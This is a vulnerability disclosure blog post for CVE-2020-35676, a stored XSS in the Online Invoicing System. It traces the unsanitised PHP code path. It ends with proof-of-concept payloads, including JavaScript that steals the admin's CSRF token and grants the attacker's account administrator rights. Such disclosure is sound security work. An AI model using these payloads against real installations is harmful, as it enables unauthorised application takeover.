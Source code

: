```yaml
---
layout: post
title: CVE-2020-35676
tags: [CVE, PHP, XSS]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.1
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Stored XSS
CVE ID: CVE-2020-35676
```

# Introduction

Online Invoicing System fails to correctly sanitize user input when a user registers using the self-registration functionality. As such, an attacker can input a specially crafted payload that will execute upon the application's administrator browsing the registered user's list. Once the arbitrary Javascript is executed in the context of the admin, this will cause the attacker to gain administrative privileges therefore effectively leading into an application takeover.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

In order to allow user's to self-register, the following pre-requisites need to be met:

1. Sign up has to be enabled in `admin/pageSettings.php` (enabled by default during a fresh install.) 
2. Custom group has to be created which would contain the self-signed up users. 

Upon these two pre-reqs being met, a user is able to self-register by browsing to `http://localhost/membership_signup.php`.

When registering, a user sees the following fields:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fields.png)

The majority fields are optional apart from:

~~~
Username
Password
Confirm Password
Email
Group
~~~

Let's take a peek in the code to see what happens to the values of these fields after this information is passed to the server.

`app/membership_signup.php`:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fieldsbackend.png)

As shown on Lines 3-11 above, multiple variables are initialized with the values of the user-input after being passed into various functions. Then on Lines 14-32, the data is validated to ensure the username does not exist, the passwords match, etc. Finally on Line 37, a SQL query is crafted using the user input and executed thus storing the registered user's information in the database.

However Lines 8-11, look very interesting:

~~~
$custom1 = makeSafe($_POST['custom1']);
$custom2 = makeSafe($_POST['custom2']);
$custom3 = makeSafe($_POST['custom3']);
$custom4 = makeSafe($_POST['custom4']);
~~~

The lines above take the values that are passed into each respective parameter that starts with the name "custom". Looking at the HTML of the sign-up form, we can confirm these correspond with the optional fields: 

~~~
Full Name
Address
City 
State
~~~


What's most interesting here is that before these values are initialized with their respective variable, the values are first passed into the `makeSafe()` function. The `makeSafe()` function is dissected in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, the `makeSafe()` function is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

So while the `makeSafe()` function may help prevent SQL Injection attacks, it has no role in sanitizing HTML. As no HTML characters are being sanitized, the database is directly storing the HTML payloads unharmed. 

While this is a red flag, it is not appropriate to jump to conclusions as there could be additional functionality which sanitizes the value stored in the database before reflecting it onto the page.

To confirm this, we can take a look at the code which is responsible for displaying these values to the administrator.

**admin/pageViewMembers.php**:
![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/reflectme.png)

As shown on Line 1, a SQL query is executed to retrieve the values of the following columns:

~~~
m.memberID - Column 0
g.name - Column 1
m.signupDate - Column 2
m.custom1 - Column 3
m.custom2 - Column 4
m.custom3 - Column 5
m.custom4 - Column 6
...
~~~

On Line 2, a while loop is used to iterate over the values of each column. The index here corresponds with the index of the columns being listed above such as `$row[0]` being the memberID (m.memberID), `$row[1]` being the group name (g.name) and so on.

With this in mind, this means that the values of the custom fields will be stored in:

~~~
$row[3] // Full Name
$row[4] // Address
$row[5] // City
$row[6] // State
~~~

Finally each of these values are passed into the `thisOr()` function in which the returned value is directly reflected on to the page:

~~~php
<td class="text-left"><?php echo thisOr($row[1]); ?></td>
<td class="text-left"><?php echo thisOr($row[2]); ?></td>
<td class="text-left"><?php echo thisOr($row[3]); ?></td>
<td class="text-left"><?php echo thisOr($row[4]); ?></td>
<td class="text-left"><?php echo thisOr($row[5]); ?></td>
<td class="text-left"><?php echo thisOr($row[6]); ?></td>
<td class="text-left">
    <?php echo (($row[7] && $row[8]) ? $Translation['Banned'] : ($row[8] ? $Translation['active'] : $Translation['waiting approval'] )); ?>
</td>
~~~

Let's take a quick peek into the `thisOr()` function as it is the last step between successful exploitation as it may be the function which could be responsible for sanitizing the items.

**admin/incFunctions.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/thisor.png)

As shown above, the `thisOr()` function performs a simple ternary operation which checks if the value of the parameter passed to it is empty. If the value is not empty, it is returned as is. However if the value is empty, a non-breaking space HTML entity is returned.

Since `thisOr()` was the final thing standing between succesful exploitation and not, we can now confirm that the application is indeed vulnerable to Stored Cross-Site Scripting as the application fails to sanitize the user-input for any HTML special characters which can lead to exploitation.

With this in mind, an attacker is able to use Javascript to craft a payload which would grant their account the highest privileges offered by the application. After sending the payload when creating a new user, an attacker will need to wait until the application's administrator browses to the user list which would therefore execute the payload. As the payload is executed in the context of the application, the Same Origin Policy is therefore bypassed and an attacker is able to effectively takeover the application.

# Proof of Concept

Basic:

```
Full Name - <img src=/ onerror=alert(1)>
Address - <img src=/ onerror=alert(2)>
City - <img src=/ onerror=alert(3)>
State - <img src=/ onerror=alert(4)>
```

Bypass SOP and grant yourself admin rights:

```javascript
// add-admin.js
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php?saved=1&memberID=attacker";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=attacker&memberID=attacker&password=&confirmPassword=&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=testing&custom2=123+Fake+St&custom3=London&custom4=New+York&comments=Test&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
```

**Replace**:
The values of `oldMemberID` and `memberID` with your respective username.

